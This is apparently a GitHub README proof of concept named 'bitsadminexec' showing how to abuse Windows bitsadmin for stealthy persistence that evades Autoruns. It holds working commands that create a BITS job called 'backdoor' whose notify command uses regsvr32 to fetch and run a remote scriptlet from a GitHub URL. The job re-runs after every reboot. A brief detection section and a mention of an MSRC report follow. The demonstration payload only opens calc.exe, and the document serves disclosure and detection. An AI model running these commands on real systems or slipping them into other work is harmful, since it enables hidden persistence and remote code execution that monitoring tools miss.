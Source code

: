 # bitsadminexec
Use bitsadmin to maintain persistence and bypass Autoruns

Report to MSRC.

###POC
(1) First we should have the administrator's right.

(2) Then run this on cmd with administrator's right:

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

(3) Then it will run the following command to start a calc.exe:
```
regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```

(4) What's more,after we restart the system,the command to start a calc.exe runs again and again.


###Impact of the issue
Autoruns's startup monitor can't find this.

Test success on Win7 、Win8、Server 2008 and so on.

###Detect
Run this to check the jobs and delete it:
```
bitsadmin /list /allusers /verbose
```
or
```
Stop Background Intelligent Transfer Service
```

###More deatils:
http://drops.wooyun.org/tips/15692
